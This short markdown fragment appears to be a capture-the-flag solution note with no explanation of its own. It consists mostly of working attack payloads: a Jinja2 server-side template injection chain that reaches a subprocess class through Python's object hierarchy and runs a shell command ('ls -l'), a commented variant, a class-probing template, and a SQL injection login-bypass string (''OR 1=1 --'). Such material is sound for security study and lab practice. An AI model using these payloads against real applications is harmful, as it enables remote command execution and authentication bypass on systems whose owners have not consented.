 # TODO: explain the solution lmao

{{''.\_\_class\_\_.\_\_mro\_\_[1].\_\_subclasses\_\_()[367]('ls -l', shell=True, stdout=-1).communicate()[0] }}
<!-- 
{{''.__class__.__mro__[1].__subclasses__()[367]('ls -l') }}
 -->


 {{''.__class__}}




title = ''OR 1=1 -- password